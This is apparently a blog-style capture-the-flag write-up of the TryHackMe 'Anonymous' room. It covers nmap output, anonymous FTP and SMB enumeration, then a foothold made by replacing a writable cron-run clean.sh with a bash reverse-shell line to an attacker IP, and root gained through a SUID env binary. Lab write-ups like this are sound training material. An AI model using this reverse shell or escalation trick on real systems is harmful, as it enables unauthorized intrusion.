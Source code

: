 ```yaml
---
title: "TryHackMe - Anonymous"
author: Nasrallah
description: ""
date: 2022-04-15 07:00:00 +0100
categories : [TryHackMe]
tags: [tryhackme, linux, smb, ftp]
img_path: /assets/img/tryhackme
image:
  src:
  width:
  height:
  alt:
---
```


<div align="center"> <script src="https://tryhackme.com/badge/367641"></script> </div>

---


# **Description**

Hello l33ts, I hope you are doing well. We are doing [Anonymous](https://tryhackme.com/room/anonymous) from [TryHackMe](https://tryhackme.com)

# **Enumeration**
## nmap

We start a nmap scan using the following command: `sudo nmap -sC -sV -T4 {target_IP}`.

- -sC: run all the default scripts.

- -sV: Find the version of services running on the target.

- -T4: Aggressive scan to provide faster results.

```Terminal
Nmap scan report for 10.10.50.126                                                                                                                            
Host is up (0.12s latency).                                                                                                                                  
Not shown: 996 closed tcp ports (reset)                                                                                                                      
PORT    STATE SERVICE     VERSION                                             
21/tcp  open  ftp         vsftpd 2.0.8 or later
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_drwxrwxrwx    2 111      113          4096 Jun 04  2020 scripts [NSE: writeable]
| ftp-syst:
|   STAT:                                                                                                                                                    
| FTP server status:                                                          
|      Connected to ::ffff:10.11.31.131
|      Logged in as ftp                
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 2
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp  open  ssh         OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 8b:ca:21:62:1c:2b:23:fa:6b:c6:1f:a8:13:fe:1c:68 (RSA)
|   256 95:89:a4:12:e2:e6:ab:90:5d:45:19:ff:41:5f:74:ce (ECDSA)
|_  256 e1:2a:96:a4:ea:8f:68:8f:cc:74:b8:f0:28:72:70:cd (ED25519)
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn Samba smbd 4.7.6-Ubuntu (workgroup: WORKGROUP)
Service Info: Host: ANONYMOUS; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_clock-skew: mean: -21m37s, deviation: 0s, median: -21m37s
|_nbstat: NetBIOS name: ANONYMOUS, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
| smb2-time:
|   date: 2022-04-03T12:43:56
|_  start_date: N/A
| smb-security-mode:
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode:
|   3.1.1:
|_    Message signing enabled but not required
| smb-os-discovery:
|   OS: Windows 6.1 (Samba 4.7.6-Ubuntu)
|   Computer name: anonymous
|   NetBIOS computer name: ANONYMOUS\x00
|   Domain name: \x00
|   FQDN: anonymous
|_  System time: 2022-04-03T12:43:56+00:00
```

There are 4 open ports:
 - 21 ftp vsftpd
 - 22 ssh OpenSSH 7.6p1
 - 139 netbios-ssn Samba smbd
 - 445 netbios-ssn Samba smbd

Let's start off by enumerating ftp since it allows anonymous login.

## FTP

We can connect to the ftp server with `ftp {target_IP}`, we supply the name as `anonymous` and we can left the password blank.

![](/assets/img/tryhackme/anonymous/a1.png)

We found some files on the server, we can download them to our machine using `get {filename}`.

Now that the files are downloaded, let's see what's on them.

![](/assets/img/tryhackme/anonymous/a3.png)

First, we have `clean.sh` script that seems to be a cleaning script. The `to_do.txt` file has a note for removing the anonymous login. The third file, `removed_file.log`, has a bunch of text that's beings repeated, and it is the same text we saw in the `clean.sh` script ,so there must be a cronjob that runs `clean.sh` regularly.

## SMB

We can check the shares of the smb server by running : `sudo smbclient -L {target_IP} -N`.

![](/assets/img/tryhackme/anonymous/a2.png)

We found `pics` share, we can connect to that share with this command : `sudo smbclient //{target_IP}/pics -N`

![](/assets/img/tryhackme/anonymous/asmb.png)

There are two pictures there, i downloaded them using `get {filename}`, inspected them for hidden content but i got nothing.


# **Foothold**

We can use the `clean.sh` script to get access to the machine, let's check it's permissions first.

![](/assets/img/tryhackme/anonymous/a4.png)

We see that can edit the script. What i did is i created a file with the same name 'clean.sh' and put the following script in that file.

```bash
#!/bin/bash

/bin/bash -i >& /dev/tcp/10.11.x.x/9001 0>&1
```

This script sends a reverse shell, so i setup a listener on my machine with `nc -lvnp 9001`, and uploaded a script to the ftp server using `put clean.sh`.

![](/assets/img/tryhackme/anonymous/a5.png)

Waiting for some time, i got the shell.

![](/assets/img/tryhackme/anonymous/a6.png)


# **Privilege Escalation**

For privesc, I uploaded linpeas and ran it.

![](/assets/img/tryhackme/anonymous/a7.png)

We found that `env` has suid binary set, searching for the binary in [GTFOBins](https://gtfobins.github.io/gtfobins/env/#suid) we found that we can run `env /bin/bash -p` and get a root shell

![](/assets/img/tryhackme/anonymous/a8.png)

Great! We got root access.


---

Thank you for taking the time to read my writeup, I hope you have learned something with this, if you have any questions or comments, please feel free to reach out to me. See you in the next hack :) .
